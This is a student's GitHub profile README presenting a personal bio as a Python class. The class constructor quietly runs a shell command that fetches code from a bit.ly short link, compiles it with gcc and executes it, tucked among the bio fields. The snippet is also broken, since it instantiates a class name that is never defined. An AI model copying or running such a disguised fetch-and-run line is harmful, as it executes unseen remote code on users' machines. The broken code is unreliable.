 <h1 align="center">Yo 👋, I'm Dela Rosa, John Errol 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🙋‍♂️ You can call me'            : 'JEP (*insert_My_names_jeff_meme)',
      '- 🤷🏻‍♂️ What is this, nani'         : 'A github repository dedicated for the CPE313 course',
      '- 🏡 I’m currently living in'    : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in'  : 'Technological Institute of the Philippines',
      '- 📓 Course code - title'        : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                    : 'CPE32S8',
      '- 🌱 I’m currently pursuing'     : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},
      '- 📊 My elective'                : 'Data Science',
      '- ❔ I don't know'               : '¯\_(ツ)_/¯',
      '- 👨‍💻 My amazing website project' : 'https://blogs.mtdv.me/blog/posts/jepowo',
      '- 💧 Motto in life'              : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'                  : ('80% of Tibetan Buddhists chose to have a sky burial, in which their bodies'
                                         'are placed on mountain tops and consumed by birds of prey.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
